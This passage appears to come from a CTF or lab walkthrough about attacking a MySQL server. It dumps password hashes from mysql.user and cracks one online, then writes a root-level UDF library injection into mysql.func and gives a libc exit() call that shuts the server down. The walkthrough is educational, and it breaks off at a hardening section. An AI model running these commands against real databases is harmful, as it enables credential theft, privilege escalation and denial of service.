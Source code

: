 Let's grab password hashes and check it on [CrackStation](https://crackstation.net/).

```plaintext
mysql> select user,authentication_string from mysql.user;
+------------------+-------------------------------------------+
| user             | authentication_string                     |
+------------------+-------------------------------------------+
| root             |                                           |
| mysql.session    | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| debian-sys-maint | *D1DBADEE9E3EE2D0767B40F19463FB6C5EB6D594 |
| dbuser           | *9CFBBC772F3F6C106020035386DA5BBBF1249A11 |
| robert           | *2429DD64CD7A63687EA257432557FEFDA6D6F2A1 |
+------------------+-------------------------------------------+
6 rows in set (0.00 sec)
```

![4079019178801.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365261937/7ZX_16y7I.png align="left")

```plaintext
echo 'dbuser|toor' | tee -a ../.credentials
```

## Arbitrary Library Injection (rabbit hole?)

* [Super\_priv](https://dev.mysql.com/doc/refman/5.6/en/privileges-provided.html#priv_super)
    

This exploit is abusing user privileges to INSERT and DELETE on 'mysql' administrative database, so it is possible to use a library located in an arbitrary directory. We can use it to prepare a library with `do_system` function to execute shell commands with root privileges.

> For more detailed steps, please refer to [MySQL Arbitrary Library Injection @ Wisec.It](http://www.wisec.it/vulns.php?page=5).

For a quick wrap up - I did manage to upload the library payload and add its path to `mysql.func` table.

```plaintext
INSERT INTO mysql.func (name,dl) VALUES ('do_system','/var/lib/mysql-files/lib_mysqludf_sys.so');
```

The last step was restarting the MySQL server - which I could have done on user account partially. Following will shut down the MySQL...

```plaintext
CREATE FUNCTION exit RETURNS INTEGER SONAME 'libc.so.6';
SELECT exit(0);
```

... but I didn't find a way to start it again. Maybe it is not possible?

[Back to top](#contents) ⤴

# Hardening Ideas

## Use absolute paths to the binaries
